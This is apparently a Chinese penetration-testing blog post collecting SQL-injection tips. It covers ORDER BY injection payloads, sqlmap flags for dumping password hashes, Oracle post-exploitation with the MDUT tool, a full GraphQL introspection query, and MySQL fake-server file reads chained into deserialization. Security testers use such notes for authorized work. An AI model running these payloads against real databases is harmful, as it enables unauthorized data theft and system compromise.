 ```yaml
---
title: "SQL注入在实战中的Tips合集"
slug: "sqli-tricks-in-pentest"
description: "已经...要....变成脚本小子的模样了!!!"
date: 2023-07-10T01:26:07+08:00
categories: ["NOTES&SUMMARY"]
series: []
tags: ["PENTEST", "SQLi"]
draft: false
toc: true
---
```


从实战中总结的一些小技巧，希望能帮助到一些人www

----

## order by注入

老生常谈，参数中出现可能为字段或表名、或出现排序有关的（比如desc, asc）就会被怀疑是sql注入点，但不是所有这种“疑似能注入”的地方都能被注——或者说重点关注什么样的字段是有说法的，这一点结合sql注入防御会更好理解

以php为例，php.ini可以设置`magic_quotes_gpc=on`开启对引号的转义，mysql中设`secure_file_priv=null`，代码中使用PDO预编译并设置

![image-20230705224758318](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705224758318.png)

以上三项如果设置有误同样会导致报错注入的产生

java中的防御步骤类似，除了叠waf以外 也无非是转义/预编译、黑/白名单、设权限三板斧，后两者先不论， **mybatis**在对参数进行预处理时是不可以对order by后的参数使用`#{}`的，而是只可以使用`${}`！原因时order by语句后的字段名或字段位置是不可以加引号的，而使用预编译则一定会带`'`，导致可能出现的注入（普通预编译也会这样）；而**Hibernate**相对来说可以避免这一问题

而order by注入本身由于语义的原因 是不能直接使用`and 1=1`来判断的，需要用到条件语句做嵌套，举例：

```sql
select * from admin order by if(1=1,username,password);	# example
select * from admin order by if((substr((select user()),1,1)='r'),username,password);
```

时间盲注也不能简单使用`sleep()`，因为会对查询的每条内容执行排序 可能会造成ddos，需要用到子查询

```sql
select * from admin order by if((substr((select user()),1,1)='r'),sleep(5),password);	# may ddos
select * from admin order by if((substr((select user()),1,1)='r'),(select 1 from (select sleep(2)) as b),password);
```

报错

```sql
select * from admin order by (extractvalue(1,concat(0x3a,version())),1);
```

## sqlmap实用参数

官方文档：https://github.com/sqlmapproject/sqlmap/wiki/Usage

- `-p "<param>"`：指定注入参数，如遇POST+json类型的请求包（或需要自定义注入位置） 在要注入的位置加`*`
- `-U "CU" --passwords`：爆破当前用户的密码hash，`--passwords`爆所有用户hash
- `--csrf-token="<csrf name>"`：指定页面隐藏的csrf-token参数，可通过`--csrf-url="<url>"`指定token来源的地址，还可以通过`--eval`配合处理多个参数（效果拔群）
- `--gui`：启动自带GUI界面，包含各种参数的使用说明

![image-20230705174602794](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705174602794.png)

- sqlmap根目录下自带一个`sqlmapapi.py` 封装了一些接口，可以通过这些接口发起扫描（不常见也不常用，但应该对造轮子有帮助

![image-20230705174431111](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705174431111.png)

## sqlmap坑点

- `--batch`在windows和linux上表现不同
- 如果不是`-r`指定请求包，请注意sqlmap发包是否会导致相应包全是302，如果出现这种情况 建议指定部分请求头
- 小概率出现：别人电脑上能跑出来注入 但你不行的玄学情况，偶发性bug 暂未找到原因

## Oracle注入及后续利用

单独把Oracle数据库拿出来说的原因是sqlmap并不支持对它执行`--os-cmd`或`--os-shell`，所以与mysql, mssql相比稍有区别

1. 收集信息，库名、表名一把梭，列列重要数据 ~~（刷分用~~

2. 查当前用户的密码hash并尝试爆明文

```
--is-dba				# 是否dba
-U "CU" --passwords		# 当前用户密码
--passwords				# 所有用户密码
```

3. 用sql-shell查当前SID和当前ip，尝试外连

```
select instance_name from v$instance
select sys_context('userenv','ip_address') from dual
```

4. 如果可以外连，用 [Multiple Database Utilization Tools](https://github.com/SafeGroceryStore/MDUT)做后续利用

*此处举例用户名为sys（是dba），用户名这里需要改为`sys as sysdba`才能正确连接！

![image-20230705180830895](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705180830895.png)

MDUT自带了HTTP隧道功能，还有常见的提权一把梭+列系统文件

5. *如果不能外连但为高权限用户，尝试执行java代码反弹（待补充）

6. Navicat或DBeaver查看数据库内具体内容；Navicat可以使用对应的隧道

## GraphQL注入

graphql有比较特殊的语法和查询方式，是便于前后端交互的语言 而不是便于后端和数据库交互的语言，后端数据都以graph 图的结构进行保存，需要设置好清晰的访问控制 不然就会被一锅端——graph的内省特性允许我们枚举数据库类型信息（见下）

graphql本身就很少见 在实战环境中更是少中又少，但我之前hvv还真见过这种站点，怎么发现端点的不太记得清了（不是dirsearch就是burpsuite扒请求记录），这里简单记录一下实操过程：

```
https://example.com/graphql?query=xxxxx
```

存在这样的可访问端点，直接用内省的payload枚举数据库结构信息

```
/graphql?query=fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
```

再使用https://graphql-kit.com/graphql-voyager/进行图的生成

![image-20230707152257406](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230707152257406.png)

![image-20230707150342238](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230707150342238.png)

通过可视化的结构构造查询数据的payload，构造方式参见 [官方文档](https://graphql.cn/learn/queries/)或 [这个仓库](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection)

![image-20230707150640501](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230707150640501.png)

拿到敏感数据就可以轻松愉快的写报告了，几百分轻松get~

当然了，如果站点做了详细的鉴权 那么所有的查询都是需要token的，没有token的我们只能到此为止了QAQ

![image-20230707150842841](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230707150842841.png)

## 伪服务端进行任意文件读

原理不再赘述（可参见之前写过的博客-> [MySQL 伪服务端读客户端任意文件](https://amiaaaz.github.io/2021/12/19/mysql-pseudo-server/)），存在以下应用场景

- 读配置文件

如后台可设置连接其它数据库，通过伪服务端读敏感信息（工具一把梭-> [mysql-fake-server](https://github.com/4ra1n/mysql-fake-server)

- (php)与phar反序列化、文件上传的结合

mysqli中的读文件会调用`php_stream_open_wrapper_ex`函数，也就是说 如果任意读的文件是phar 就可以反序列化

可以先通过反序列化链子构造phar（甚至不需要有链子，只要支持反序列化 比如最简单的sopaclient等等内置类反序列化），结合文件上传，再用mysql连接读这个phar 触发反序列化

- (java)jdbc反序列化

工具同上

- （防守）做蜜罐

微步有成型的蜜罐可开箱即用